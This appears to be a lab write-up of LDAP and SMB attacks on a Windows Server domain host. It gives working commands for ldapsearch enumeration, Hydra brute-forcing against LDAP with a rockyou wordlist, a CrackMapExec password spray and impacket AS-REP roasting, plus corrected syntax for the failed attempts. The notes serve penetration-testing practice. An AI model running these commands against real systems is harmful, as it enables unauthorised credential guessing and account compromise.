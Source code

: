 # 🔓 LDAP Enumeration & Brute-Force Attempt – 192.168.1.2

This document records the LDAP reconnaissance and password attack attempts against the Windows Server 2025 machine running on the domain `narnia.com`.

---

## 🧪 LDAP Enumeration with `ldapsearch`

### 🔸 Attempts Made:
Several `ldapsearch` commands were run to enumerate domain information, including:
- Common mistake: used `-h` and `-p` options (deprecated)
- Correct method: use the `-H` option to define LDAP URI like:
  ```bash
  ldapsearch -x -H ldap://192.168.1.2 -b namingContexts
🔹 Outcome:
LDAP service was reachable on port 389

Enumeration failed due to incorrect option usage

No domain naming contexts or user entries retrieved yet

🔐 Hydra LDAP Brute-Force Attempts
🔸 Tool:
Hydra v9.5

🔸 Commands Tried:
bash
Copy
Edit
hydra -L user_list.txt -P rockyou.txt ldap2://192.168.1.2
Then later:

bash
Copy
Edit
hydra -L user_list.txt -P rockyou.txt ldap3://192.168.1.2
🔹 Errors Encountered:
user_list.txt was missing

Attempted LDAP3 simple authentication without providing -m (Bind DN)

Hydra requires -m "CN=User,...,DC=narnia,DC=com" to specify which DN to try logging into

✅ LDAP3 works with Hydra, but proper -m usage and correct user list are required for success.

🛠️ CrackMapExec & Impacket
crackmapexec (SMB):
bash
Copy
Edit
crackmapexec smb 192.168.1.2 -u user_list.txt -p password123
Result: SMB reachable, domain identified as narnia.com, OS: Windows 10.0 build 26100

❌ Connection failed: NetBIOS timeout — likely because username list was invalid or server filtering was applied

impacket-GetNPUsers:
bash
Copy
Edit
impacket-GetNPUsers narnia.com/ -no-pass -usersfile user_list.txt
❌ Failed due to missing user_list.txt file

✅ Lessons & Next Steps
✅ Use ldapsearch -x -H ldap://192.168.1.2 -b namingContexts to correctly enumerate base DNs

✅ Create a proper user_list.txt file with likely usernames

✅ For Hydra:

Use the -m option to define the DN path

Try:

bash
Copy
Edit
hydra -L user_list.txt -P rockyou.txt ldap3://192.168.1.2 -m "cn=%u,dc=narnia,dc=com"
✅ Use GetNPUsers with a valid user list to look for ASREP roastable accounts

⚠️ All actions are for lab-based educational use only.
